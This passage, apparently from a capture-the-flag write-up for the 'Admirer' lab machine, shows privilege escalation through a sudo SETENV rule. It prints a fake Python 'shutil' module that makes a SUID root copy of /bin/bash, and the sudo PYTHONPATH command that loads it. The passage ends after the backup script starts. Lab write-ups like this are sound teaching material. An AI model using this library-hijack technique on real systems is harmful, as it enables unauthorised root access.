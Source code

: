 
As always I first checked if I can run any programs as sudo:

```bash
waldo@admirer:/home$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, 
		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, 
		listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

There is a script that I can execute with the SETENV (I will put the Theory to this at the end of this write up). I analyzed the script, but there are no path manipulations possible. So I start by enumerating the other files that are used by the script. Here is backup.py:

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

I think I am able to exploit this. I should be able to set the $PYTHONPATH variable when executing sudo, which gives me control over the import functionality of python. I can create a script that will make an SUID copy of /bin/bash (I will do this in `/var/tmp`, because other dirs are cleared):

```python
#!/usr/bin/python3

import os

def make_archive(a,b,c):
    pass

os.system('cp /bin/bash /var/tmp/rootbash; chown root:root /var/tmp/rootbash; chmod 4755 /var/tmp/rootbash')
```

Note: The file must be called `shutil`. I run the script while defining the PYTHONPATH variable:

```bash
waldo@admirer:/opt/scripts$ sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
```
